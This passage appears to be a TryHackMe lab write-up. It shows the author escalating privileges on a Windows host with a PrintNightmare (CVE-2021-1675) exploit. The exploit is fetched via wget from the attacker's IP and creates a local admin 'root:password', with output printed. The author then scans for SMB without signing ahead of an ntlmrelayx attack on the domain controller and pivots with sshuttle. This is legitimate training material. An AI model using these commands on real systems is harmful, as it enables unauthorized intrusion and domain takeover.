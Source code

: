 After taking a look in TryHackMe's discord server to see if anyone else talked about the dll hijacking not working, and someone pointed out that the machine is vulnerable to PrintNightmare!

I downloaded and used https://github.com/calebstewart/CVE-2021-1675 to exploit it.
```
PS C:\Windows\System32\spool\drivers\color> wget 10.50.107.226/CVE-2021-1675.ps1 -OutFile CVE-2021-1675.ps1

PS C:\Windows\System32\spool\drivers\color> Import-Module .\CVE-2021-1675.ps1

PS C:\Windows\System32\spool\drivers\color> Invoke-Nightmare -NewUser "root" -NewPassword "password" -DriverName "PrintMe"

[+] created payload at C:\Users\watamet\AppData\Local\Temp\2\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user root as local administrator
[+] deleting payload from C:\Users\watamet\AppData\Local\Temp\2\nightmare.dll
```

And just like that I made myself a root account with the credentials: `root:password` that I can login to with RDP.

### Going Up!
The next step is to gain DC admin access. According to the task, I need to start by using `ntlmrelayx.py` in impacket.
To do that, I first did a network scan over the entire network to find SMB running without SMB signing.
I managed to get a hit on `10.200.110.30 (DC-SRV01)` which is most likely the DC.
```
Host script results:
| smb2-time: 
|   date: 2022-04-10T22:00:49
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40338/tcp): CLEAN (Couldn't establish connection (Nsock connect failed immediately))
|   Check 2 (port 40841/tcp): CLEAN (Couldn't establish connection (Nsock connect failed immediately))
|   Check 3 (port 40945/udp): CLEAN (Timeout)
|   Check 4 (port 18769/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
```

I switched my pivoting method to sshuttle, so that I could use proxychains for ntlmrelayx.
`sudo sshuttle -r linux-admin@10.200.110.33 10.200.110.0/24  -x 10.200.110.33` (-x prevents 10.200.110.33 from being excluded twice)
